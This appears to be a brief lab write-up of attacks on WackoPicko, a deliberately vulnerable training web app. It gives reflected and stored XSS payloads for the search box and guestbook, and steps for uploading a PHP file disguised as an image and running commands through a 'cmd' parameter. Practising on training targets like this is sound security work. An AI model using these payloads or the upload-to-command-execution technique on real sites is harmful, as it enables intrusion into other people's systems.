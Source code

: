 +++
title = "OWASP Broken Web Apps WackoPicko"
slug = "owasp-broken-web-apps-wackopicko"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

Right off the bat, try hitting the search box with a simple XSS payload:

```javascript
search.php?query=<script>lt;script<script>gt;alert(1)<%2Fscript>&x=24&y=12
```

#/guestbook.php

Placing this:

```html
<script>confirm(1)</script>
<img src=x onerror='confirm(2)' />
```

into a comment body yields stored XSS

Next I made an account and started uploading stuff, turns out php files are uploadable and executable:

1. Make the file's name be: whatever.php
2. Make its extension: .jpg
3. Upload
4. Open the broken image on the page you're redirected to and open its URL in a new tab, remove the 550 from the URL
5. ?cmd=ls -latr



